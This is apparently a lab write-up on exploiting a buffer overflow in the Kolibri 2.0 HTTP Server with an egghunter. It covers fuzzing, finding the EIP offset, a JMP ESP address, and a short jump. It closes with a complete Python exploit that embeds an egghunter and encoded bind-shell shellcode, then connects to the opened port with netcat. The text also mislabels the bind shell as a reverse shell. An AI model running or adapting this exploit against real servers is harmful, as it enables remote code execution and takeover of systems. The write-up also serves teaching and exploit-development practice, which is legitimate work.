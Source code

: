 ```yaml
---
title: Egghunting - Exploiting the Kolibri 2.0 HTTP Server
date: 2024-07-02 15:00:00 +0200
---
```

# What is egghunting?
Egghunting is a technique used in Buffer overflow attacks in which the buffer space after gaining EIP control is limited.
It relies on using an egghunter,which is a set of programmatic instructions translated to opcode.
The egghunter works by scanning the memory space of the program to find a two times repeated ASCII "egg".
Upon finding the egg (which we should place before our shellcode) it redirects the execution flow to the shellcode.
You can find more on egghunters [here.](https://www.hick.org/code/skape/papers/egghunt-shellcode.pdf)

# Kolibri 2.0 HTTP Server
You can find the vulnerable application [here.](https://www.exploit-db.com/apps/4d4e15b98e105facf94e4fd6a1f9eb78-Kolibri-2.0-win.zip)
It is a simple old school HTTP Server with a vulnerable HTTP request buffer.Multiple headers are overflowable and point to different memory locations.
For easier understanding badcharacter analysis will be left out.They are different between the HTTP headers.
badchars: \x00\x0d\x0a\x3d\x20\x3f
As we will see later by mona findmsp analysis after the injection of a msf pattern, User-Agent header has no bad characters in the ASCII range,which 
is why the shellcode will be encoded in x86/alpha_mixed.
A thing to keep in mind is that any and all payloads that we will be sending can not contain a bad character.
# Fuzzing for buffer size
The first thing we want to check is when the buffer will overflow.
A small python script for incrementally increasing the size of the payload will suffice.
```python
#!/usr/bin/python3
import socket

buf = b"A" * 100
lastlen = ""
while True:
    try:
        lastlen = str(len(buf))
        print("Fuzzing with buffer length " + lastlen)
        buffer = (
            b"HEAD /" + b" HTTP/1.1\r\n"
            b"Host: 192.168.111.128:8080\r\n"
            b"User-Agent: " + buf + b"\r\n"
            b"Keep-Alive: 115\r\n"
            b"Connection: keep-alive\r\n\r\n"
        )

        # Send the crafted HTTP request
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.122.3", 8080))
        s.send(buffer)
        s.close()

        buf += b"A" * 100  # Increment the buffer length for the next iteration
    except Exception as e:
        print("Possible last buffer length was " + lastlen)
        break

```
![fuzzing](assets/fuzzingForBufferSize.png)
*As we can see on the left,the EIP register was overwriten by a buffer that is long 600 bytes.*

# Finding the EIP offset
So to actually hijack the execution flow,we need to know how much can we write to a buffer untill we hit the EIP.
We can do that by generating a pattern using a metasploit ruby script which we will send as the payload,and then let
mona do pattern analysis on the memory space by running    
`!mona findmsp`
To generate the pattern use the pattern_create metasploit script.
![msfpattern](assets/creatingMSFpattern.png)
![findeipoffset](assets/eipOffset.png)

To confirm the offset is at 515 , we made a payload with four Bs and as we can see the EIP register has been overwritten with ASCII 
hex codes of B.
![eipoverwrite](assets/EIPoverwritten.png)


# Finding a pointer to esp
To redirect the execution flow we must find a jmp instruction to the ESP register.
We can do that by running the mona command `!mona jmp -r esp`.
![jmpesp](assets/jmpESP.png)
I will be using the first address.
To check for it we will put a breakpoint on it.
After putting the address in our payload  and executing it ,we see that we have hit our breakpoint.
![eippointingtoesp](assets/eippointingtoesp.png)
If we step through , we will get redirected to our two B's located at esp.
The small amount of memory we have is enough for us to embed some "shortjump" opcode `\xEB\`,and the length we wish to jump backwards.
We will be jumping back 60(xC4) bytes,which will land us on our A's(memory that we control) where we will embed our egghunter later.

# Generating the egghutner
All that is left is to generate the egghunter (this one is in particular 32 bytes in size) and append it to our initial payload.
We can generate it by running `!mona egg -t pwnd`.It lets you pick a custom tag (which in this case is pwnd).

After running the payload with the egghunter,by placing a breakpoint and steping into the next instruction we will be able to find
the egghunter in memory.
![egghunterinmemory](assets/foundegghunter.png)


# Stage 2 : Injecting shellcode into the User-Agent header
By injecting the msf pattern into the User-Agent and running `!mona findmsp ` we will see that the pattern stayed intact and has been found 3 times in memory.
This means the only thing left is to generate ASCII encoded shellcode and the payload is complete.
The payload i picked is a standard windows reverse shell.
`msfvenom -p windows/shell_bind_tcp LPORT=4444 -f python -e x86/alpha_mixed`


The final exploit:

```python
#!/usr/bin/python3

import socket
import os
import sys
# badchars: \x00\x0d\x0a\x3d\x20\x3f  | badchars for User-Agent are different,so to avoid doing more work the shellcode will be ascii encoded
# since msf ascii patern remained unchanged

egghunter = b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
egghunter += b"\xef\xb8\x70\x77\x6e\x64\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
#                      p   w   n   d        egg

# 7C9D30D7 FFE4 JMP ESP (adress to overwrite eip(SHELL32.DLL)) |offset to eip is 515|   opcode for short jump (c4 = 60 bytes) (jumps 60 bytes back into buffer)
stage1 = b"A" * 478 + egghunter + b"A" * 5 + b"\xd7\x30\x9d\x7c" + b"\xeb\xc4"


shellcode = b""
shellcode += b"\x89\xe3\xdb\xd8\xd9\x73\xf4\x5a\x4a\x4a\x4a\x4a"
shellcode += b"\x4a\x4a\x4a\x4a\x4a\x4a\x4a\x43\x43\x43\x43\x43"
shellcode += b"\x43\x37\x52\x59\x6a\x41\x58\x50\x30\x41\x30\x41"
shellcode += b"\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42"
shellcode += b"\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49\x69"
shellcode += b"\x6c\x6d\x38\x6b\x32\x43\x30\x45\x50\x53\x30\x71"
shellcode += b"\x70\x6e\x69\x69\x75\x45\x61\x4f\x30\x42\x44\x4c"
shellcode += b"\x4b\x50\x50\x70\x30\x4c\x4b\x50\x52\x76\x6c\x4e"
shellcode += b"\x6b\x32\x72\x37\x64\x4e\x6b\x61\x62\x76\x48\x64"
shellcode += b"\x4f\x78\x37\x72\x6a\x76\x46\x74\x71\x59\x6f\x4c"
shellcode += b"\x6c\x35\x6c\x51\x71\x73\x4c\x36\x62\x36\x4c\x75"
shellcode += b"\x70\x7a\x61\x38\x4f\x56\x6d\x35\x51\x6b\x77\x39"
shellcode += b"\x72\x5a\x52\x63\x62\x53\x67\x6c\x4b\x76\x32\x72"
shellcode += b"\x30\x4e\x6b\x32\x6a\x45\x6c\x6e\x6b\x62\x6c\x36"
shellcode += b"\x71\x61\x68\x49\x73\x57\x38\x45\x51\x4b\x61\x62"
shellcode += b"\x71\x6c\x4b\x72\x79\x45\x70\x67\x71\x69\x43\x4c"
shellcode += b"\x4b\x52\x69\x32\x38\x4a\x43\x46\x5a\x47\x39\x6e"
shellcode += b"\x6b\x34\x74\x6c\x4b\x46\x61\x68\x56\x65\x61\x4b"
shellcode += b"\x4f\x6c\x6c\x4b\x71\x78\x4f\x36\x6d\x65\x51\x6a"
shellcode += b"\x67\x70\x38\x6d\x30\x44\x35\x6c\x36\x74\x43\x43"
shellcode += b"\x4d\x58\x78\x47\x4b\x73\x4d\x54\x64\x51\x65\x79"
shellcode += b"\x74\x61\x48\x6e\x6b\x61\x48\x61\x34\x35\x51\x79"
shellcode += b"\x43\x61\x76\x4c\x4b\x36\x6c\x42\x6b\x4e\x6b\x43"
shellcode += b"\x68\x37\x6c\x63\x31\x6b\x63\x4c\x4b\x63\x34\x4e"
shellcode += b"\x6b\x55\x51\x68\x50\x6f\x79\x31\x54\x46\x44\x67"
shellcode += b"\x54\x63\x6b\x43\x6b\x70\x61\x62\x79\x51\x4a\x66"
shellcode += b"\x31\x79\x6f\x6d\x30\x71\x4f\x43\x6f\x50\x5a\x6e"
shellcode += b"\x6b\x77\x62\x4a\x4b\x6e\x6d\x43\x6d\x42\x48\x55"
shellcode += b"\x63\x65\x62\x67\x70\x75\x50\x30\x68\x74\x37\x70"
shellcode += b"\x73\x65\x62\x71\x4f\x72\x74\x75\x38\x42\x6c\x33"
shellcode += b"\x47\x74\x66\x67\x77\x39\x6f\x68\x55\x48\x38\x7a"
shellcode += b"\x30\x77\x71\x47\x70\x67\x70\x71\x39\x69\x54\x76"
shellcode += b"\x34\x76\x30\x71\x78\x64\x69\x6b\x30\x70\x6b\x35"
shellcode += b"\x50\x79\x6f\x5a\x75\x43\x5a\x53\x38\x56\x39\x62"
shellcode += b"\x70\x69\x72\x6b\x4d\x51\x50\x72\x70\x73\x70\x52"
shellcode += b"\x70\x50\x68\x79\x7a\x74\x4f\x79\x4f\x79\x70\x49"
shellcode += b"\x6f\x38\x55\x6a\x37\x71\x78\x44\x42\x45\x50\x37"
shellcode += b"\x61\x53\x6c\x4d\x59\x68\x66\x61\x7a\x46\x70\x63"
shellcode += b"\x66\x76\x37\x51\x78\x48\x42\x69\x4b\x44\x77\x31"
shellcode += b"\x77\x49\x6f\x48\x55\x76\x37\x43\x58\x78\x37\x48"
shellcode += b"\x69\x65\x68\x59\x6f\x4b\x4f\x79\x45\x33\x67\x65"
shellcode += b"\x38\x51\x64\x78\x6c\x67\x4b\x39\x71\x49\x6f\x49"
shellcode += b"\x45\x30\x57\x6c\x57\x61\x78\x61\x65\x72\x4e\x42"
shellcode += b"\x6d\x65\x31\x39\x6f\x68\x55\x50\x68\x50\x63\x70"
shellcode += b"\x6d\x73\x54\x47\x70\x6d\x59\x48\x63\x30\x57\x71"
shellcode += b"\x47\x42\x77\x70\x31\x6c\x36\x72\x4a\x42\x32\x30"
shellcode += b"\x59\x76\x36\x7a\x42\x79\x6d\x55\x36\x6b\x77\x30"
shellcode += b"\x44\x75\x74\x45\x6c\x46\x61\x76\x61\x4c\x4d\x53"
shellcode += b"\x74\x75\x74\x46\x70\x69\x56\x33\x30\x37\x34\x72"
shellcode += b"\x74\x72\x70\x72\x76\x30\x56\x42\x76\x47\x36\x50"
shellcode += b"\x56\x62\x6e\x66\x36\x56\x36\x70\x53\x76\x36\x33"
shellcode += b"\x58\x51\x69\x7a\x6c\x55\x6f\x6f\x76\x49\x6f\x79"
shellcode += b"\x45\x4c\x49\x4b\x50\x42\x6e\x33\x66\x50\x46\x69"
shellcode += b"\x6f\x74\x70\x45\x38\x66\x68\x6d\x57\x37\x6d\x53"
shellcode += b"\x50\x69\x6f\x69\x45\x4f\x4b\x78\x70\x4c\x75\x4e"
shellcode += b"\x42\x42\x76\x30\x68\x6d\x76\x5a\x35\x6f\x4d\x4d"
shellcode += b"\x4d\x6b\x4f\x68\x55\x57\x4c\x77\x76\x63\x4c\x75"
shellcode += b"\x5a\x6f\x70\x79\x6b\x4d\x30\x52\x55\x75\x55\x6f"
shellcode += b"\x4b\x70\x47\x66\x73\x52\x52\x62\x4f\x52\x4a\x67"
shellcode += b"\x70\x42\x73\x59\x6f\x78\x55\x41\x41"


stage2 = b"pwndpwnd" + shellcode


buffer = (
    b"HEAD /" + stage1 + b" HTTP/1.1\r\n"
    b"Host: 192.168.111.128:8080\r\n"
    b"User-Agent:  " + stage2 + b"\r\n"
    b"Keep-Alive: 115\r\n"
    b"Connection: keep-alive\r\n\r\n"
)

expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
expl.connect(("192.168.122.3", 8080))
expl.send(buffer)
expl.close()
```

Runnning `netstat -an` on the WindowsXP machine we see that it is listening on our dedicated port 4444.
![netstat](assets/netstat.png)
Running `nc 192.168.122.3 4444` we get a fully functional reverse shell.
![revshell](assets/revshell.png)
